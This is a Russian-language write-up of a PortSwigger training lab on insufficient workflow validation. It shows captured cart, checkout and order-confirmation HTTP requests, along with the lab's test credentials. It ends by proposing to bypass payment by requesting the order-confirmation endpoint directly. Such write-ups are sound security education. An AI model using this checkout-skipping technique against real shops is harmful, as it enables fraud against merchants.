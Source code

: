 ```yaml
---
title: "Insufficient workflow validation"
date: 2025-10-30
tags: [web, writeup]  
categories: [PortSwigger]
tagline: ""
header:
  overlay_image: /assets/images/IMG_writeups/IMG_PortSwigger/ps_logo.webp
  overlay_filter: 0.5 
  overlay_color: "#fff"
  actions:
    - label: "Lab PortSwigger"
      url: "https://portswigger.net/web-security/logic-flaws/examples/lab-logic-flaws-insufficient-workflow-validation"
classes: wide
---
```


Для прохождения нужно купить `Lightweight l33t leather jacket`. Для входа в учетную запись есть креды `wiener`:`peter`.

```
https://0ae700e003e905dd811b3f0e00ff0002.web-security-academy.net/
```

# Solution

Зайду в личный кабинет, попробую собрать различные варианты запросов.

Добавление товара в корзину:

```http
POST /cart HTTP/2
Host: 0ae700e003e905dd811b3f0e00ff0002.web-security-academy.net
Cookie: session=ii4c9RiowvaXnZktNrhoLC5gpwZUGoPc
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:144.0) Gecko/20100101 Firefox/144.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0ae700e003e905dd811b3f0e00ff0002.web-security-academy.net/product?productId=14
Content-Type: application/x-www-form-urlencoded
Content-Length: 37
Origin: https://0ae700e003e905dd811b3f0e00ff0002.web-security-academy.net
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers

productId=14&redir=PRODUCT&quantity=1
```

Покупка товара:

```http
POST /cart/checkout HTTP/2
Host: 0ae700e003e905dd811b3f0e00ff0002.web-security-academy.net
Cookie: session=ii4c9RiowvaXnZktNrhoLC5gpwZUGoPc
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:144.0) Gecko/20100101 Firefox/144.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0ae700e003e905dd811b3f0e00ff0002.web-security-academy.net/cart
Content-Type: application/x-www-form-urlencoded
Content-Length: 37
Origin: https://0ae700e003e905dd811b3f0e00ff0002.web-security-academy.net
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers

csrf=i4U0M2bJTCiBDeyJ1MHmC3qVQbVxjxUR
```

Подтверждение заказа:

```http
GET /cart/order-confirmation?order-confirmed=true HTTP/2
Host: 0ae700e003e905dd811b3f0e00ff0002.web-security-academy.net
Cookie: session=ii4c9RiowvaXnZktNrhoLC5gpwZUGoPc
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:144.0) Gecko/20100101 Firefox/144.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0ae700e003e905dd811b3f0e00ff0002.web-security-academy.net/cart
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers
```

Хмм. Не вижу ни одной причины, чтобы не попробовать добавить жилет в корзину, а затем не отправить запрос на `/cart/order-confirmation`:

![IMG](/assets/images/IMG_writeups/IMG_PortSwigger/IMG_blv/IMG_insufficient-workflow-validation/1.png){: height="200" .align-center}
